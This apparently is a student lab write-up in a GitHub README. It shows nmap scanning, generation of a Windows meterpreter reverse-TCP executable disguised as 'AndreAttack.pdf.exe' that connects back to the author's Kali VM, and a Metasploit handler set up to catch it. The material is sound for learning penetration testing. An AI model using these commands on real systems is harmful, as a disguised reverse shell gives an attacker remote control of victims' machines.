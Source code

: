### Step 1: Checking Nmap Commands and Syntax
- Used the command:
  ```bash
  nmap -h
![Step1](https://github.com/user-attachments/assets/ee1f6cfa-cd10-4520-becc-d57480418288)


### Step 2: Used nmap -A with my windows machine IP to check for open ports
- Used the command:
  ```bash
  nmap -A
![Step2 1](https://github.com/user-attachments/assets/cfb32c6e-12c7-4496-b523-9e1cb9ab7cdb)


### Step 3: - Used command "msfvenom -l payloads" to check for commands with payloads used "-l"  and "payloads" to list the payloads commands
- Used the command:
  ```bash
  msfvenom -l
![Step3_Payloads](https://github.com/user-attachments/assets/ad3632bf-3a7f-4694-a9dc-08c4884ae7df)


### Step 4: -From the payloads, I selected the `"windows/x64/meterpreter_reverse_tcp"`, and proceeded with this command:
```bash
windows/x64/meterpreter_reverse_tcp lhost=192.132.69.50 lport=4444 -f exe -o AndreAttack.pdf.exe
```
![Step4](https://github.com/user-attachments/assets/ae135d67-802a-4c91-ae55-08cc54904c31)

With this command i added the host ip (my Kali VM), and a random port `4444`.This command will generate a malware using meterpreter reverse tcp load. Which is instructed to connect back to our machine based on `lhost`, the file format will be in ".exe" with the name of `AndreAttack.pdf`,
as you can see from the screenshot below, i successed created the file and checked if the file is present using the `ls` command.
As we can see by using `file` we can access the file contents.

![step4 1](https://github.com/user-attachments/assets/d9d87b86-b10d-431d-ae7b-ee3f841dc85e)


### Step 5: - In this step i used metasploit by typing the command `msfconsole`.
- Used the command:
  ```bash
  msf
 ![6t](https://github.com/user-attachments/assets/559904d9-c420-4f0d-8660-bfbd59598c37)
### 5.1 Then proceeded to `use exploit/multi/handler`, and then `options`, to see what we can configure.
![5 1](https://github.com/user-attachments/assets/4da75551-7f64-4776-a1f9-fdfaed6e88cd)


### Step 6: We can see the payloadoptions to "generic/shell_reverse_tcp", i will change this payload so it can be the same payload that i use when configuring the malware on msfvenom earlier.
- Used the command:
  ```bash
  set payload windows/x64/meterpreter/reverse_tcp
  ```
Then i applied `options` again to change to my command.

![6 1](https://github.com/user-attachments/assets/ae64a0ed-617d-4083-b13b-9a15ad35d50d)



